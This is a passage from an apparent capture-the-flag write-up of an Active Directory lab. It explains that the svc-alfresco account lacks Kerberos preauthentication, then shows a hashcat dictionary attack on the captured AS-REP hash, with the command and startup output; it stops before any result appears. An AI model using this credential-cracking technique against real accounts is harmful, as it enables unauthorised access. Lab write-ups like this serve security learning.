 As seen above, the `svc-alfresco` user didn't have Kerberos preauthentication enabled, so I was able to translate the secret from the AS-REP into a hash that can be cracked by hashcat.

### Cracking the Secret from the AS-REP Response

I moved the hash to my cracking machine to perform an offline brute force attack to see if I could crack `svc-alfresco`'s password:

```
PS D:\hashcat\hashcat-6.0.0> .\hashcat.exe -a 0 -m 18200 ..\hashes\forest-svc-alfresco.asreproast ..\wordlists\rockyou.txt
hashcat (v6.0.0) starting...

* Device #1: WARNING! Kernel exec timeout is not disabled.
             This may cause "CL_OUT_OF_RESOURCES" or related errors.
             To disable the timeout, see: https://hashcat.net/q/timeoutpatch
* Device #2: WARNING! Kernel exec timeout is not disabled.
             This may cause "CL_OUT_OF_RESOURCES" or related errors.
             To disable the timeout, see: https://hashcat.net/q/timeoutpatch
* Device #3: Unstable OpenCL driver detected!

This OpenCL driver has been marked as likely to fail kernel compilation or to produce false negatives.
You can use --force to override this, but do not report related errors.

nvmlDeviceGetFanSpeed(): Not Supported

CUDA API (CUDA 11.0)
====================
* Device #1: GeForce GTX 1650 with Max-Q Design, 3323/4096 MB, 16MCU

OpenCL API (OpenCL 1.2 CUDA 11.0.208) - Platform #1 [NVIDIA Corporation]
========================================================================
* Device #2: GeForce GTX 1650 with Max-Q Design, skipped

OpenCL API (OpenCL 2.1 ) - Platform #2 [Intel(R) Corporation]
=============================================================
* Device #3: Intel(R) UHD Graphics 630, skipped

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 345 MB

Dictionary cache hit:
* Filename..: ..\wordlists\rockyou.txt
```